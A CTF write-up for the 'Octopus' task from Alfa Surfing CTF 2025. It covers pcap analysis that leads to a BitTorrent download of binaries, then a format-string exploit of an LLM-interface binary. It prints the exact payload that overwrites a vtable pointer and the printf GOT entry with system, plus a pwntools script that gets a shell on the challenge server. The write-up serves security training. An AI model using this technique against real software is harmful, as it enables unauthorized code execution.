 ```yaml
---
layout: post
title:  "Alfa Surfing CTF 2025 - Octopus"
date:   2025-09-14 13:37:00 +0300
categories: ctf writeup
tags: pwn forensics network format-string
---
```


*Type: CTF task*

*Platform: Linux*

*Category: Pwn/Network*

*Idea: BTH to get binaries and pwn format string on server*

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/task_desc.png)

This is a network + pwn task from [Alfa Surfing CTF 2025](https://ctftime.org/event/2935). We have a pcap with some traffic.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/pcap_base.png)

So we need to filter TLS traffic and other stuff. And we get something like this. 

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/filtred_pcap.png)

Filter: `!tls and (ip.addr != 217.12.104.100 and ip.addr != 91.206.127.56 and ip.addr != 216.58.211.228) && !dns`

We see suspicios BT-DHT packets. This is Bittorent protocol. And after we see Bittorent hash (BTH).

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/bth_traffic.png)

And we can create a magnet link with this hash: `magnet:?xt=urn:btih:541dbfceb925d26c4f0f7687a9ad7bd0c1d9a7b5`
And just use any Bittorent client.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/magnet_link_download.png)

After downloading we need to analyze binaries. There is two binaries: server_with_pow.elf and run.elf.

**server_with_pow.elf**

It's just a simple TCP server that get string from client and calc MD5 hash.
Hash need to start with 21 zero bit.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/server_analyze.png)

If it's okay we run next binary `run.elf`.

**run.elf**

This binary provides us the interface to local LLM. 

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/run_elf_lama_show.png)

And we can choose the user. In banner.txt we see just two of three users. But in code we see another user `melloy`.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/run_elf_users.png)

And when we see how proceeded inputed string from user `melloy` we discover the format string vulnerablity in line 129.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/run_elf_format_string.png)

So we need to PWN it!

My idea of exploitation is about only binary pwn. But author solution use LLM to get shell.

First we need to check what is on stack after our format string bug was triggered.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/gdb_stack1.png)

And we see that we can addressing the stack where pointer to user object stored. 
And this pointer points to vtable of object. Function from vtable using after printf.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/vtable_usage.png)

And when we make checksec on binary we see that there is no PIE and partitial RELRO.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/checksec.png)

Let's check that GOT is writeable on debugger.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/perms_got.png)

So there is final idea of exploitation.

1. We overwrite data by pointer to Melloy object (which was vtable pointer) to offset in binary where address of `_start` placed. And it give us a cycle, after format string printing we run `_start` and `main` again.
2. We overwrite `printf` in GOT to `system` PLT. And this give us a shell, becase we call system on data that suppouse to be provided in printf.

See on the stack what happend after our overwriting.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/overwrite.png)

vtable is overwrited and we jump to `_start`

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/vtable_hit.png)

And after that we need to interact with process and type username and command after.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/local_shell.png)


So final payload is `"%34$n%4194328c%14$n%38488c%35$n_" + p64(0x703028 + 4) + p64(0x703028)`


Exploit code:
```python
#!/usr/bin/env python3
from pwn import *


if __name__ == "__main__":
    #p = process('./run.elf')
    p = remote('46.62.167.155', 31337)

    p.recvline()
    p.sendline(b'7vfv')

    #gdb.attach(p, '''b *0x4250E3''')
    p.sendlineafter(b'<no user choosed\n', b'melloy')
    p.sendlineafter(b'<melloy\n', b"%34$n%4194328c%14$n%38488c%35$n_" + p64(0x703028 + 4) + p64(0x703028))

    p.interactive()
```

Run and get flag!

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/flag.png)


**Summary**: Thanks the author (@awengar) for the task. It was fun!